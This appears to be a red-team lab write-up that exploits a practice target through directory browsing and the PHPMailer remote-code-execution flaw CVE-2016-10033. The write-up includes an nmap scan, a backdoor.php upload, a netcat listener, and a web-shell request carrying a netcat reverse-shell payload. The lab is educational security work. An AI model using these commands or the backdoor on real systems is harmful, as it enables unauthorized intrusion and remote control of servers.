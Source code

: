 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    **Vendor Directory Index view from the browser**
     
    ![1](/Images/4/6.PNG) 

    PATH File: **Flag1**

    ![2](/Images/4/7.PNG)        
     
    **PHPMAILER version**

    ![4](/Images/4/9.PNG)    

---

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. Execution of the script to exploit PHPMailer. This script will upload a file called backdoor.php to the target server allowing the execution of command injection attacks.

            ./exploit.sh

        ![15](/Images/4/15.PNG)

    2. Set the Command and Control Machine to listen using the NetCat command.

            nc -lnvp 4444

        ![16](/Images/4/16.PNG)

    19. Make that the exploited machine calls to the Command and Control Machine using a NetCat command embedded in a payload after running the payload in the browser.

            192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash  

        ![17](/Images/4/17.PNG)

    20. Sensitive information was found in the "www" and "WordPress uploads" directory    

        ![18](/Images/4/18.PNG)

        ![15](/Images/1/15.png)